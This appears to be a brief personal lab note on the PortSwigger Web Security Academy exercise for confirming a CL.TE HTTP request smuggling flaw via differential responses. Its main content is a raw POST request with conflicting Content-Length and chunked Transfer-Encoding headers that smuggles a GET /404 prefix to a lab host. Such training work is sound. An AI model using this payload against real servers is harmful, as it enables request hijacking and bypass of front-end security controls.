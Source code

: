 ____

# HTTP request smuggling, confirming a CL.TE vulnerability via differential responses


```
POST / HTTP/1.1
Host: 0ad900fc04a5e02480c97b4300e60060.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```

![[Pasted image 20240815043936.png]]